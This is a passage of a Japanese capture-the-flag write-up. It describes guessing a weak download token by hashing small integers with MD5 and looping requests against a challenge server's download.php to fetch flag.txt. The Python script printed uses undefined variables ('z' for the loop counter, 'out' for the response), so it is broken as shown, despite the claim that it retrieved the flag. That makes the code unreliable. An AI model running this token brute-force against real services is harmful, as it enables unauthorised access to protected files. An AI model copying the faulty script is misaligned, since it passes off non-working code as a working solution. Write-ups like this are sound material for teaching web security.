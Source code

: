 This is not a flag looking for.

ぐぬぬ...

### 変数に異常値を入れて脆弱性を探す

正規表現やパスを入れてみましたがきちんと処理されているみたいです．

### token総当たり

128bitのtokenだったので，md5か何かだろうと思い総当たりを試しました．

```python
import hashlib
import requests

for i in range(0,1000):
    token = hashlib.md5(str(z).encode('utf-8')).hexdigest()
    url = "http://165.22.22.11:25632/download.php?file=flag.txt&token=" + token
    conn = requests.get(url)
    if "CTF" in out.decode('utf-8'):
        print(out)
```

実行するとフラグをゲットしました．やったぜ．

### 対策

もっと質のいいhash関数を使うべし！！！